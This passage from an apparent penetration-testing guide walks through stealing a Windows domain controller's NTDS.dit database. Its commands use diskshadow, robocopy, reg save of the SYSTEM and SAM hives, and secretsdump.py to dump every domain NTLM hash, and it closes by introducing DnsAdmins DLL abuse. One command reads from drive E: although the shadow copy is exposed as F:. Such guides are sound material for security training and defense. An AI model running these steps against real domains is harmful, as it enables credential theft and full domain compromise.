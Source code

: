 You can abuse this access to **steal** the active directory database **`NTDS.dit`** to get all the **NTLM hashes** for all user and computer objects in the domain.

Using [**diskshadow**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/diskshadow) you can **create a shadow copy** of the **`C` drive** and in the `F` drive for example. The, you can steal the `NTDS.dit` file from this shadow copy as it won't be in use by the system:

```
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 10:34:16 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% F:
DISKSHADOW> end backup
DISKSHADOW> exit
```

As in the local attack, you can now copy the privileged file **`NTDS.dit`**:

```
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

Another way to copy files is using [**robocopy**](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy)**:**

```
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```

Then, you can easily **steal** the **SYSTEM** and **SAM**:

```
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```

Finally you can **get all the hashes** from the **`NTDS.dit`**:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```

## DnsAdmins

A user who is member of the **DNSAdmins** group or have **write privileges to a DNS** server object can load an **arbitrary DLL** with **SYSTEM** privileges on the **DNS server**.\
This is really interesting as the **Domain Controllers** are **used** very frequently as **DNS servers**.

